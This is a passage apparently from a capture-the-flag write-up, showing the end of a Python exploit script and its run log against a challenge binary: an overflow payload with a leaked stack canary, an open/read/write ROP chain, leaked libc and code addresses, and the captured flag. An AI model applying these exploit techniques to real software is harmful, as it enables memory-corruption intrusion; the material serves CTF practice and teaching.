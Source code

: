 ```python
r.send(b'a' * 0x38 + extend_payload)

# Write Exploit ROP gadget
raw_input()
r.send(file_addr + p64(canary) + p64(0) + open_payload + read_payload + write_payload)

r.interactive()
```

```bash
$ python exp.py
[+] Starting local process './chal': pid 5857
[+] Opening connection to 10.113.184.121 on port 10056: Done
[b'aaaaaaaaaaaaaaaaaaaa hachamachama', b'ECHO HACHAMA!']
[*] [-------------Stack Info-------------]
[*] 0x414d4148434148
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x2be6a8b7acfcbc00
[*] 0x1
[*] 0x7fef436ccd90
[*] 0x0
[*] 0x560ff1bf4331
[*] [-------------Stack Info-------------]
[+] Canary = 0x2be6a8b7acfcbc00
[+] libc start main base = 0x7fef436ccd10
[+] libc base addr = 0x7fef436a3000
[+] Main Function Address = 0x560ff1bf4331
[+] Code Segment = 0x560ff1bf4000

[*] Switching to interactive mode
flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Segmentation fault
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to 10.113.184.121 port 10056
[*] Stopped process './chal' (pid 5857)
```

Flag: `flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}`